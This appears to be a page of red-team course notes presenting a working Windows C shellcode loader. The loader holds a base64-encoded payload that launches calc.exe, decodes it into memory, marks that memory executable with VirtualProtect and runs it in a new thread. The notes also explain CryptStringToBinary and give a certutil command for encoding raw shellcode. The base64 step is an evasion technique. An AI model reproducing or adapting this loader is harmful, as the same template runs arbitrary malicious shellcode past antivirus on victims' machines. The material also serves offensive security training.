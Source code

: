 

Code snippet
```c
/*

 Red Team Operator course code template
 payload encoding with base64

 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "Crypt32.lib")

unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
unsigned int calc_len = sizeof(calc_payload);


int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {

	DWORD outLen;
	BOOL fRet;

	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	
	if (!fRet) outLen = 0;  // failed
	
	return( outLen );
}


int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	
	// Allocate new memory buffer for payload
	exec_mem = VirtualAlloc(0, calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "calc_payload addr", (void *)calc_payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	printf("\nHit me 1st!\n");
	getchar();

	// Decode the payload back to binary form
	DecodeBase64((const BYTE *)calc_payload, calc_len, (char *) exec_mem, calc_len);
	
	// Make the buffer executable
	rv = VirtualProtect(exec_mem, calc_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me 2nd!\n");
	getchar();

	// If all good, execute!
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```


---

#### Key Windows API functions

Windows API provides functions to encode and decode Base64 data. Two common functions for this purpose are `CryptBinaryToString()` and `CryptStringToBinary()`, which are part of the Cryptography API.

[**_CryptStringToBinary()_**](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya) converts a formatted string into an array of bytes. This function can be found in the _crypt32.dll_ library.

`CryptStringToBinary()` function has the following prototype:

```c
BOOL CryptStringToBinaryA(
  LPCSTR pszString,  // pointer to a string that contains the formatted string to be converted.
  DWORD  cchString,  // number of characters of the formatted string to be converted, not including the terminating NULL
  DWORD  dwFlags,    // indicates the format of the string to be converted, ex. CRYPT_STRING_BASE64, CRYPT_STRING_HEXASCII, CRYPT_STRING_BINARY, etc.
  BYTE   *pbBinary,  // pointer to a buffer that receives the returned sequence of bytes
  DWORD  *pcbBinary, // pointer to a variable which on entry contains the size of the pbBinary (in bytes). After return, it contains the number of bytes copied to the buffer
  DWORD  *pdwSkip,   // pointer to a value that receives the number of characters skipped to reach the beginning of the -----BEGIN ...----- header
  DWORD  *pdwFlags   // pointer to a value that receives the flags actually used in the conversion. Can be NULL (skipped)
);
```


---

#### B64 conversion

Base64 encode bin shellcode
```powershell
certutil -encode calc.bin calc.b64
```

